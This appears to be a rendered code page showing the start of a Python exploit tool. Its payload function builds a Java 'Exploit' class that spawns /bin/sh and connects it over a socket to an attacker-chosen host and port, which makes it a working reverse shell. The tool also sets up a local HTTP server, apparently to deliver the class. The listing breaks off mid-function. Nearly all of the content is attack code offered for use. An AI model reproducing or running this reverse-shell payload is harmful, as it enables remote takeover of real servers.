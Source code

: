 {% highlight python linenos %}
import subprocess
import sys
import argparse
from colorama import Fore, init
import subprocess
import threading

from http.server import HTTPServer, SimpleHTTPRequestHandler

init(autoreset=True)

def listToString(s):
	str1 = ""
	try:
		for ele in s:
			str1 += ele
		return str1
	except Exception as ex:
		parser.print_help()
		sys.exit()

def payload(userip , webport , lport):

	genExploit = (
	"""
	import java.io.IOException;
	import java.io.InputStream;
	import java.io.OutputStream;
	import java.net.Socket;

	public class Exploit {

	public Exploit() throws Exception {
	String host="%s";
	int port=%s;
	String cmd="/bin/sh";
	Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
	Socket s=new Socket(host,port);
	InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
	OutputStream po=p.getOutputStream(),so=s.getOutputStream();
	while(!s.isClosed()) {
	while(pi.available()>0)
	so.write(pi.read());
	while(pe.available()>0)
	so.write(pe.read());
	while(si.available()>0)
	po.write(si.read());
	so.flush();
	po.flush();
	Thread.sleep(50);
	try {
	p.exitValue();
	break;
	}
	catch (Exception e){
	}
	};
	p.destroy();
	s.close();
	}
	}
	""") % (userip, lport)

	# writing the exploit to Exploit.java file
	try: